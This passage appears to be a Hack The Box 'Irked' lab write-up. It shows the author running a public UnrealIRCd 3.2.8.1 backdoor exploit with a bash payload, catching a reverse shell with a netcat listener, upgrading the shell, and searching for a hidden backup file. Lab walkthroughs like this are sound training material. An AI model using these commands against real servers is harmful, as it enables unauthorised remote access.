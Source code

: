 I need two terminals - a listener and one to run the exploit:

```bash
 m0j0@r1s1n  ~/HTB/write-ups/irked/UnrealIRCd-3.2.8.1-Backdoor   master ±  python3 exploit.py -payload bash 10.10.10.117 8067
Exploit sent successfully!
```

I get a good sign and wait:

```bash
m0j0@r1s1n  ~/HTB/write-ups/irked   m0j0_development ✚  rlwrap -cAr nc -lvnp 1234          
listening on [any] 1234 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.117] 38764
bash: cannot set terminal process group (618): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

I got a connect back (: 

Note - There is a very easy MSF module for this if you `searchsploit` for it, as mentioned above.

So my shell needs a few command before I move on but I will try out of curiosity the `script` method as it is easier to remember:

```bash
ircd@irked:~/Unreal3.2$ script /dev/null -c bash
script /dev/null -c bash
ircd@irked:~/Unreal3.2$ 
[1]  + 45233 suspended  rlwrap -cAr nc -lvnp 1234
 ✘ m0j0@r1s1n  ~/HTB/write-ups/irked   m0j0_development ✚  stty raw -echo; fg;             
[1]  + 45233 continued  rlwrap -cAr nc -lvnp 1234
ircd@irked:~/Unreal3.2$ i
id_rsa     irked.jpg
```

Yeah it works also I have auto-complete working as seen above (I think). Anyway…

Time to move on and get user but it appears I need to move onto another user to read `user.txt`

```bash
ircd@irked:/home$ cat djmardov/user.txt
cat djmardov/user.txt
cat: djmardov/user.txt: Permission denied
```

Time for lateral movement to begin, but I also need to check have I missed any guided questions.

The next question is - What is the name of the hidden file that contains a "steg backup pw"?

This is a guide alright let’s look for a hidden folder, just like enumeration I guess. Right??

So I know all hidden folders start with a period `.` and I am looking a backup. I can try a simple command first.

```bash
ircd@irked:/$ find / -type f -iname ".backup" 2>/dev/null
find / -type f -iname ".backup" 2>/dev/null
/home/djmardov/Documents/.backup
```

